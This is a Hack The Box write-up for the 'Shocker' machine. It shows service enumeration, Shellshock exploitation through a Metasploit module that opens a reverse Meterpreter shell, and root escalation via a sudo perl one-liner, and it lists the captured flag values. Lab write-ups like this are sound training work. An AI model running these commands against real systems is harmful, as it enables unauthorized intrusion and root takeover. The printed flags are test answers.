 # HTB: Shocker

## Engagement Overview  
**Target:** Shocker
**Box IP:** 10.10.10.56
**Date:** 2025-07-08
**Difficulty:** Easy

---

### Objectives  
- Enumerate HTTP and SSH services  
- Identify and exploit the Shellshock vulnerability  
- Escalate privileges to root  
- Capture user and root flags  

---

## Service Enumeration

```bash
nmap -sV -sC -p- 10.10.10.56
```

- **Port 80/tcp** – Apache 2.4.18 (Ubuntu)  
- **Port 2222/tcp** – OpenSSH 7.2p2 Ubuntu

### Dirsearch Results
```bash
dirsearch -u http://10.10.10.56 -e cgi,sh,pl,py
```

- `/cgi-bin/user.sh` (confirmed for Shellshock)
- Other 403 responses for `.htaccess*`, `/server-status`, etc.

---

## Methodologies

### Initial Access - Shellshock (CVE-2014-6271)

**Vulnerability Explanation:**  
Apache mod_cgi allows remote code execution via crafted HTTP headers. Exploitable through the `user.sh` script in `/cgi-bin/`.

**Exploitation Method (Metasploit):**
```bash
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS 10.10.10.56
set TARGETURI /cgi-bin/user.sh
set LHOST <your-ip>
run
```

**Post-Exploitation:**  
- Shell received via Meterpreter  
- User: `shelly`

---

## Privilege Escalation

**sudo -l output:**  
```bash
User shelly may run the following commands on Shocker:
(root) NOPASSWD: /usr/bin/perl
```

**Exploitation:**
```bash
sudo perl -e 'exec "/bin/sh";'
```

- Shell escalated to root  
- `whoami` → `root`  
- `root.txt` captured

---

## House Cleaning
- Verified user and root flags
- Session closed cleanly
- No modifications left on disk

---

## Post-Exploitation

**Tools Utilized**
* `nmap`  
* `dirsearch`  
* `metasploit`  
* `LinEnum`  
* `gtofbins`  

**User Flag:**  
`084f092f15d55672beb680d9d4c00bca`  

**Root Flag:**  
`5b644f916a82afcad38cd359ec742ccc`  

---

## Key Takeaways

* **Tool Familiarity:** Improved comfort with `msfconsole`; it aligns well with your mental model.
* **Shell Handling:** Gained insight into managing reverse shells and privilege escalation using simple scripted payloads.
* **Practical Scripting Idea:** Consider writing a custom parser for `linenum.sh` output to streamline future small-box enumeration.
* **Flow Clarity:** HTB easy boxes like this are best used for muscle memory on tooling and developing clean workflows.